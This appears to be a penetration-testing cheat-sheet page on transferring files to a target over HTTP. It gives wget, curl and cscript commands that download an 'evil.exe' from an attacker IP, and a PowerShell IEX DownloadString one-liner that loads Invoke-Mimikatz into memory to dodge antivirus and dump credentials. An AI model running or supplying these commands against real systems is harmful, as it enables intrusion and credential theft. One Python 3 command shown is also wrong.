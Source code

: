 ## HTTP/HTTPS

One of the easier ways to transfer a file as most devices have http/S access. We start by finding a directory on target you can write to.

```
# find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```

{% tabs %}
{% tab title="Wget - Grab URL" %}
```
(Linux) Uses HTTP and FTP
# wget http://<url> -O url.txt -o /dev/null

(Windows) wget script
> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```
{% endtab %}

{% tab title="Curl - Grab URL" %}
Can transfer with IMAP, POP3, SCP, SFTP, SMB, SMTP, TELNET, TFTP< and others

```
# curl -o file.txt http://url.com
```
{% endtab %}

{% tab title="SimpleHTTPServer" %}
[SimpleHTTPServerWithUpload](https://gist.github.com/UniIsland/3346170)

* SimpleHTTPServer is a Python module which allows you to instantly create a web server in the current working directory. Not only is it useful for web developers to test their websites locally without having to worry about javascript errors, it can be a useful tool for pentesters when dealing with web applications.
* The default port number SimpleHTTPServer uses is 8000; however, you can use any arbitrary port number by simply specifying the desired port after running the command. The Kali instance used within this lab defaults to python 3. In order to run SimpleHTTPServer use the following syntax:#
  * python3 -m SimpleHTTPServer 1234
* This will enable you to access the current working directory in a web browser on the standard port 8000 at the host IP address. (You can visit the directory in a browser on the User machine using the Kali IP address.)
* It is worth noting, that there are two different modules that have the same function.
* SimpleHTTPServer is a module that is compatible with Python v2.7. Python v3.0 has a newer version of the SimpleHTTPServer module which operates the same way; this is named http.Server.
  * \#python -m http.server 1234
* Actions with the server
  * You can make a simple http web request to pull down any files you need from your target, and they appear as simple web requests.
  * Antivirus will scan the disk of your target regularly and block any files that you download on to it, if they are flagged as a virus. You can Bypass this by invoking a powershell command call to pull a remote file directly into memory
    * \> IEX (New-Object Net.WebClient).DownloadString('http://\[attacker IP]/\[target powershell script]');\[New Powershell Command]
      * IEX - pull directly into memory
      * Net.WebClient - Needed to run the DownloadString function
    * Example:
      * \> IEX(New-Object Net.WebClient).DownloadString('http://10.102.10.91:1234/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
  * Set up a simple HTTP server and pull files from it on to target
    * (Attacker) # python -m [SimpleHTTPServer](https://app.gitbook.com/s/-MQCNQTNhvnXD58Vo8Mf/red-offensive/The\_Red\_Notebook--ToolBox--SimpleHTTPServer.html) 80
    * (Target) # wget [http://attackerip/fil](http://attackerip/file)
{% endtab %}
